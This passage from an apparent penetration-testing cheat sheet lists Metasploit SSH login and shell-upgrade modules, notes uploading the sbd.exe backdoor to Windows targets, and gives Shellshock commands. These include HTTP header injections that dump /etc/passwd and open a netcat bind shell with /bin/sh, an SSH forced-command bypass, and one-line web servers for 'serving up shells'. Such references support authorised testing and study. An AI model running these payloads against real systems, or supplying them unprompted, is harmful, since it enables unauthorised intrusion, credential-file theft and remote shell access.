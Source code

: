          use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

*   SBD.exe

    sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32\. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only. sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.

*   Shellshock

    *   Testing for shell shock with NMap

    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

    *   git clone [https://github.com/nccgroup/shocker](http://web.archive.org/web/20171113221652/https://github.com/nccgroup/shocker)

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

    *   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh

              ssh -vvv  
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

    *   cat file (view file contents)

              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    *   Shell Shock run bind shell

             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

# [](#file-transfers)File Transfers

*   Post exploitation refers to the actions performed by an attacker, once some level of control has been gained on his target.

*   Simple Local Web Servers

    *   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    *   Run a basic Python3 http server, great for serving up shells etc  
        python3 -m http.server

    *   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    *   Run a basic PHP http server  
        php -S $ip:80

